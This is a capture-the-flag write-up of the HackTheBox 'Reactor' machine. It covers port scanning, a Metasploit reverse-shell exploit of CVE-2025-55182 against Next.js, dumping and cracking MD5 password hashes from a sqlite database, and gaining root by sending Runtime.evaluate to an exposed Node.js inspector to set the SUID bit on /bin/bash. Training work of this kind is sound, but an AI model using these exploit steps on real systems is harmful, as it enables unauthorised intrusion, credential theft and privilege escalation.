




# WRITE UP REACTOR - HTB MACHINE
## MY MAIN IDEA AND WALKTHROUGH
### Step 1. First of all, we need to connect with the VPN from HTB, using the command: ```sudo openvpn <FILE_NAME>.ovpn```

### Step 2. OK! now check the HTB website and get the target IP and we are ready to startttt:



### Step 3. Scanning ports
My first approach was using `nmap` to scan target IP address ports:

```bash
nmap <IP_ADDRESS>
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-03 20:17 +07
Nmap scan report for reactor.htb (<IP_ADDRESS>)
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 16.11 seconds
```

`nmap` scanning result showed that there are two open ports on target IP address: `22` and `3000`. I will scan deeply these ports with `nmap` `-sC` and `-sV` flag:

```bash
nmap -sC -sV <IP_ADDRESS> -p 22,3000
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-31 08:07 +07
Nmap scan report for <IP_ADDRESS>
Host is up (0.097s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
|_  256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
|     x-nextjs-cache: HIT
|     x-nextjs-prerender: 1
|     x-nextjs-stale-time: 4294967294
|     X-Powered-By: Next.js
|     Cache-Control: s-maxage=31536000, 
|     ETag: "p02u6gnhufd8t"
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 17175
|     Date: Mon, 31 Aug 2026 01:06:53 GMT
|     Connection: close
|     <!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/414e1be982bc8557.css" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-db0a529a99835594.js"/><script src="/_next/static/chunks/4bd1b696-80bcaf75e1b4285e.js" async=""></script><script src="/_next/static/chunks/517-d083b552e04dead1.js" async=""></script><script s
|   HTTPOptions: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Mon, 31 Aug 2026 01:06:54 GMT
|     Connection: close
|   Help, NCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Mon, 31 Aug 2026 01:06:55 GMT
|_    Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.95%I=7%D=8/31%Time=6A94D3D5%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,3952,"HTTP/1\.1\x20200\x20OK\r\nVary:\x20RSC,\x20Next-Router-S
SF:tate-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetch,\x2
...<SNIP>...
SF:nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.71 seconds
```
Looks like the target IP address ran a website built by `Next.js` (a framework full-stack based on `React`)



### Step 4. Web enumeration
- One of the most popular ways to enumerate a website is fuzzing with tools such as `ffuf`. But after trying to fuzz for hidden `vhost` and `directories`, I found nothing.
- I read the website source code and found nothing too.
- I could not interact with the website, this website did not have anything such as buttons or login forms.
### Step 5. RCE
I changed my approach because it seems to be the website did not give me anything useful so I started searching on the Internet about `CVEs` or `vulnerabilities` about `React` and `Next.js`



Here we go! I think I found the key detail to perform `RCE`. Let's do a deeper search with professional tool such as `Metasploit`



I tried with `CVE-2025-55182` so I selected `use 4` and searched what important parameters I had to set value to exploit the target IP using command `show options`

```bash
[msf](Jobs:0 Agents:0) exploit(multi/http/react2shell_unauth_rce_cve_2025_55182) >> show options

Module options (exploit/multi/http/react2shell_unauth_rce_cve_2025_55182):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported
                                          proxies: sapni, socks4, http, socks5, socks5h
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasplo
                                         it/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Path to the React App
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_nodejs):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Next.js - Unix Command


View the full module info with the info, or info -d command.
```

You could set the required parameters value using command `set <parameter_name> <value>`

After that, running the `check` command to know if target IP is exploitable. 
To start the exploit process, using command `exploit`

```bash
[msf](Jobs:0 Agents:0) exploit(multi/http/react2shell_unauth_rce_cve_2025_55182) >> check
[+] <IP_ADDRESS>:3000 - The target appears to be vulnerable.
[msf](Jobs:0 Agents:0) exploit(multi/http/react2shell_unauth_rce_cve_2025_55182) >> exploit
[*] Started reverse TCP handler on 10.10.16.22:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (10.10.16.22:4444 -> <IP_ADDRESS>:60250) at 2026-09-03 21:16:44 +0700

node@reactor:/opt/reactor-app$ id
id
uid=999(node) gid=988(node) groups=988(node)
```

Using `metasploit`, I successfully performed `RCE`. 

### Step 6. User flag
My next step was searching around as user `node`. User `node` is a low privilege user, so, of course, I had to find something to perform `privilege escalation` to higher privilege user if I want to find at flags. I tried a basic command `ls -la`

```bash
node@reactor:/opt/reactor-app$ ls -la
ls -la
total 76
drwxr-xr-x  5 node node  4096 Dec 28  2025 .
drwxr-xr-x  4 root root  4096 Apr 27 11:26 ..
drwxr-xr-x  2 node node  4096 Dec 28  2025 app
-rw-r--r--  1 node node   276 Dec 28  2025 .env
drwxr-xr-x  7 node node  4096 Dec 28  2025 .next
-rw-r--r--  1 node node   172 Dec 28  2025 next.config.js
drwxr-xr-x 30 node node  4096 Dec 28  2025 node_modules
-rw-r--r--  1 node node   269 Dec 28  2025 package.json
-rw-r--r--  1 node node 29329 Dec 28  2025 package-lock.json
-rw-r-----  1 node node 12288 Dec 28  2025 reactor.db
node@reactor:/opt/reactor-app$ cat .env
cat .env
# ReactorWatch Configuration
# Database connection for sensor data

DB_PATH=/opt/reactor-app/reactor.db
DB_TYPE=sqlite3

# API Keys
SENSOR_API_KEY=rw_sk_7f8a9b2c3d4e5f6g7h8i9j0k
ALERT_WEBHOOK=https://alerts.internal.reactor.htb/webhook

# Node environment
NODE_ENV=production
```

`ls -la` is just a simple command but at this time, it gave me a huge thing: `.env` file containing many important secret system informations. According to this file, I not only learned that there was a `sqlite3` database in this backend system, but also the path leading to it.

I easily accessed the database and found user passwords in table `users`

```bash
node@reactor:/opt/reactor-app$ sqlite3 /opt/reactor-app/reactor.db
sqlite3 /opt/reactor-app/reactor.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
.tables
sensor_logs  users      
sqlite> select * from users;
select * from users;
1|admin|a203b22191d744a4e70ada5c101b17b8|administrator|admin@reactor.htb
2|engineer|39d97110eafe2a9a68639812cd271e8e|operator|engineer@reactor.htb
```

I checked the `/home` folder and found that there was a user called `engineer`

```bash
node@reactor:/opt/reactor-app$ ls -ls /home
ls -ls /home
total 8
4 drwxr-x--- 4 engineer engineer 4096 May 20 10:12 engineer
4 drwxr-x--- 2 node     node     4096 Sep  3 14:52 node
```

So my next step was cracking `engineer` password (this password was hashed by `md5` hash function). There are many tools that could help you finish this process such as `hashcat`. I found the clear form of `engineer` password, logged in as `engineer` and gained the `user flag`

```bash
ssh engineer@reactor.htb
engineer@reactor.htb's password: 
 ____  _____    _    ____ _____ ___  ____  
|  _ \| ____|  / \  / ___|_   _/ _ \|  _ \ 
| |_) |  _|   / _ \| |     | || | | | |_) |
|  _ <| |___ / ___ \ |___  | || |_| |  _ < 
|_| \_\_____/_/   \_\____| |_| \___/|_| \_\

    ReactorWatch Core Monitoring System
    Nuclear Dynamics Corp. - Site 7
    
    AUTHORIZED PERSONNEL ONLY
Last login: Thu Sep 3 14:57:08 2026 from 10.10.16.22
engineer@reactor:~$ ls -la
total 36
drwxr-x--- 4 engineer engineer 4096 May 20 10:12 .
drwxr-xr-x 4 root     root     4096 May 18 11:40 ..
-rw------- 1 engineer engineer    0 May 20 10:12 .bash_history
-rw-r--r-- 1 engineer engineer  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 engineer engineer 3771 Mar 31  2024 .bashrc
drwx------ 2 engineer engineer 4096 May 18 11:40 .cache
-rw------- 1 engineer engineer   20 Dec 28  2025 .lesshst
-rw-r--r-- 1 engineer engineer  807 Mar 31  2024 .profile
drwx------ 2 engineer engineer 4096 May 18 11:40 .ssh
-rw-r--r-- 1 engineer engineer    0 Dec 28  2025 .sudo_as_admin_successful
-rw-r----- 1 root     engineer   33 Sep  3 13:13 user.txt
engineer@reactor:~$ cat user.txt
<USER_FLAG>
```

### Step 7. Privilege Escalation
I performed system enumeration to find the way leading to `privilege escalation`. When I checked for running processes using `ps aux` I found a quite unique process:

```bash
root        1416  0.0  1.1 1066456 46768 ?       Ssl  13:26   0:00 /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

This was a `node.js` process in `--inspect` (debug) mode with a target file `/opt/uptime-monitor/worker.js`. The important thing is this process has `root` privilege. I investigated two potential attack surfaces exposed by this root-privileged process. First, I checked the permission of `/opt/uptime-monitor/worker.js`:

```bash
engineer@reactor:~$ ls -la /opt/uptime-monitor/worker.js
-rw-r--r-- 1 root root 1684 Apr 27 11:26 /opt/uptime-monitor/worker.js
```

User `engineer` only had read permission so I used `cat` to see the content of this file:

```bash
engineer@reactor:/tmp$ sed -n '1,240p' /opt/uptime-monitor/worker.js
const http = require('http');
const fs = require('fs');

const TARGET_URL = 'http://127.0.0.1:3000/';
const CSV_FILE = '/var/log/uptime-monitor.csv';
const INTERVAL_MS = 30_000;
const TIMEOUT_MS = 10_000;

function csvEscape(value) {
    const s = String(value ?? '');
    return /[",\n]/.test(s) ? `"${s.replace(/"/g, '""')}"` : s;
}

function record({ status, latency, size, error }) {
    const row = [
        new Date().toISOString(),
        status ?? '',
        latency ?? '',
        size ?? '',
        error ?? '',
    ]
        .map(csvEscape)
        .join(',') + '\n';

    fs.appendFileSync(CSV_FILE, row);
}

function probe() {
    const start = process.hrtime.bigint();
    let bytes = 0;

    const req = http.get(TARGET_URL, { timeout: TIMEOUT_MS }, (res) => {
        res.on('data', (chunk) => {
            bytes += chunk.length;
        });

        res.on('end', () => {
            const latencyMs = Number(
                (process.hrtime.bigint() - start) / 1_000_000n
            );

            record({
                status: res.statusCode,
                latency: latencyMs,
                size: bytes,
            });
        });
    });

    req.on('error', (error) => {
        const latencyMs = Number(
            (process.hrtime.bigint() - start) / 1_000_000n
        );

        record({
            latency: latencyMs,
            error: error.code || error.message,
        });
    });

    req.on('timeout', () => {
        req.destroy();

        record({
            latency: TIMEOUT_MS,
            error: 'TIMEOUT',
        });
    });
}

setInterval(probe, INTERVAL_MS);
probe();

console.log('uptime-monitor up, pid=' + process.pid);
```

I could not find any problem in this file to perform `privilege escalation`.

Secondly, `node.js` was running debug mode so I tried to connect to its default debug mode endpoint `/json` with curl:

```bash
engineer@reactor:/tmp$ curl http://127.0.0.1:9229/json
[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=127.0.0.1:9229/768ad46f-7acc-4fc5-8261-3e601ed9a6ea",
  "devtoolsFrontendUrlCompat": "devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/768ad46f-7acc-4fc5-8261-3e601ed9a6ea",
  "faviconUrl": "https://nodejs.org/static/images/favicons/favicon.ico",
  "id": "768ad46f-7acc-4fc5-8261-3e601ed9a6ea",
  "title": "/opt/uptime-monitor/worker.js",
  "type": "node",
  "url": "file:///opt/uptime-monitor/worker.js",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9229/768ad46f-7acc-4fc5-8261-3e601ed9a6ea"
} ]
```

I connected to `http://127.0.0.1:9229/json` successfully. In the `http response`, I found the parameter `webSocketDebuggerUrl: "ws://127.0.0.1:9229/768ad46f-7acc-4fc5-8261-3e601ed9a6ea"` containing the url that allow the debug tools such as `Google DevTools` or `VS code` to connect to `node.js --inspect` using `Websocket Protocol`. So, I could write my own script with `webSocketDebuggerUrl` to communicate with `node.js` on this server as a debug tool. 

Moreover, after researching process, I found that I could use the `Node.js Inspector protocol` to request the existing `Node.js runtime` to evaluate JavaScript code as a debugger using `"method": "Runtime.evaluate"`. The `node.js --inspect` process had `root privilege` so maybe I could require it to set `SUID` bit for `/bin/bash`. If this process ran successfully, I might perform `privilege escalation` through the `SUID` bit in `/bin/bash` permission.

I wrote a Python script to automatically send `http request` to `http://127.0.0.1:9229/json` and gain `webSocketDebuggerUrl`, perform `WebSocket handshake` with `node.js --inspect`, create `WebSocket frame`, require `node.js --inspect` to evaluate/execute my exploit JS code.

For security reason, I could not upload my Python script fully here, sorry for that. You could refer my json package sent to `node.js --inspect`. 


```python
def send_runtime_evaluate(sock, expression):
...<SNIP>...
   message = json.dumps({
         "id": 1,
         "method": "Runtime.evaluate",
         "params": {
               "expression": expression,
               "returnByValue": True
         }
      })
...<SNIP>...

def main ():
...<SNIP>...
    try:
        expression = "process.mainModule.require('child_process').execSync('chmod u+s /bin/bash')"
...<SNIP>...
```

I successfully set `SUID` bit for `/bin/bash` !

```bash
engineer@reactor:/tmp$ python3 exploit.py
[*] Getting Node Inspector target...
[+] Debugger URL:
    ws://127.0.0.1:9229/f2e552d8-ca5a-4555-82ff-5738d45a7f41
[*] Connecting WebSocket...
[+] WebSocket handshake successful.
[*] Execute Runtime.evaluate:
    process.mainModule.require('child_process').execSync('chmod u+s /bin/bash')
[+] Raw response:
�9{"id":1,"result":{"result":{"type":"object","value":{}}}}
engineer@reactor:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

I could execute `/bin/bash -p` to gain `EUID=root`, and my `privilege escalation` worked perfectly.

```bash
engineer@reactor:/tmp$ /bin/bash -p
bash-5.2# id
uid=1000(engineer) gid=1000(engineer) euid=0(root) groups=1000(engineer),4(adm),24(cdrom),30(dip),46(plugdev),101(lxd)
```

### Step 8. Root flag

```bash
bash-5.2# cd /root
bash-5.2# ls -la
total 44
drwx------  7 root root 4096 Sep  7 06:29 .
drwxr-xr-x 23 root root 4096 May 20 10:07 ..
-rw-------  1 root root    0 May 20 10:12 .bash_history
-rw-r--r--  1 root root 3106 Apr 22  2024 .bashrc
drwx------  2 root root 4096 May 20 09:10 .cache
drwxr-xr-x  3 root root 4096 Dec 28  2025 .config
-rw-------  1 root root   20 May 18 13:10 .lesshst
drwxr-xr-x  3 root root 4096 Dec 28  2025 .local
drwxr-xr-x  4 root root 4096 Dec 28  2025 .npm
-rw-r--r--  1 root root  161 Apr 22  2024 .profile
drwx------  2 root root 4096 Dec 28  2025 .ssh
-rw-r-----  1 root root   33 Sep  7 06:29 root.txt
bash-5.2# cat root.txt
<ROOT_FLAG>
```

The root cause that led to `privilege escalation`: an exposed Node.js debugging interface allowed a low-privileged local user to control the runtime of a Node.js process running as root.

### NOTE
- I will research about `CVE-2025-55182` and hopefully I can improve my skillsets and extend my knowledge.
- My blog about `CVE-2025-55182` will appear soon.

## THING I LEARNT AFTER THIS LAB:
- Do not spend too much time in web enum/fuzzing step
- But fuzzing is an important step to find hidden things =))))
- After completing around 6 labs, I feel like I have a better understanding of what kind of `web fuzzing` I have to do first to gain helpful things
- `curl` sometimes shows things that are not visible on the website.
- `urlencode` is more powerful than I thought previously =))
- Check `cron` file and `localhost ports` when enumerate system for `privilege escalation`
- Also check the running process using `ps aux`.
- Trust the process
